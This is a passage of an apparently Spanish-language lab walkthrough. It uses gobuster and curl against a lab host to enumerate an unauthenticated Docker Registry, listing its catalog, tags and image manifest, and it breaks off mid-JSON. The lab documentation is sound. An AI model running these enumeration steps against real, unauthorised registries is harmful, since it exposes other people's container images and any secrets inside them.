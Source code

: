 ```php
===============================================================
2023/08/04 23:14:49 Starting gobuster in directory enumeration mode
===============================================================
/v2                   (Status: 301) [Size: 39] [--> /v2/]
```

* Ahí hay *algo* de JSON pero como no lo entiendo bien, busco por internet lo de `Docker Registry` y encuentro una url interesante [https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry]

* Esto se cumple exactemente

```php
If you access / nothing is returned in the response
If you access /v2/ then {} is returned
If you access /v2/_catalog you may obtain:
{"repositories":["alpine","ubuntu"]}
{"errors":[{"code":"UNAUTHORIZED",
  "message":"authentication required",
  "detail":[{
    "Type":"registry",
    "Class":"",
    "Name":"catalog",
    "Action":"*"}]}]}
```

* Compruebo

```php
curl -s http://192.168.0.104:1007/v2/_catalog
{"repositories":["dolly"]}
```
* Obtengo las etiquetas `tags` del repositorio

```php
curl -s http://192.168.0.104:1007/v2/dolly/tags/list
{"name":"dolly","tags":["latest"]}
```
* Obteniendo el `manifests`

```php
curl -s http://192.168.0.104:1007/v2/dolly/manifests/latest
{
   "schemaVersion": 1,
   "name": "dolly",
   "tag": "latest",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:5f8746267271592fd43ed8a2c03cee11a14f28793f79c0fc4ef8066dac02e017"
      },
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:f56be85fc22e46face30e2c3de3f7fe7c15f8fd7c4e5add29d7f64b87abdaa09"
      }
   ],
   "history": [
      {
```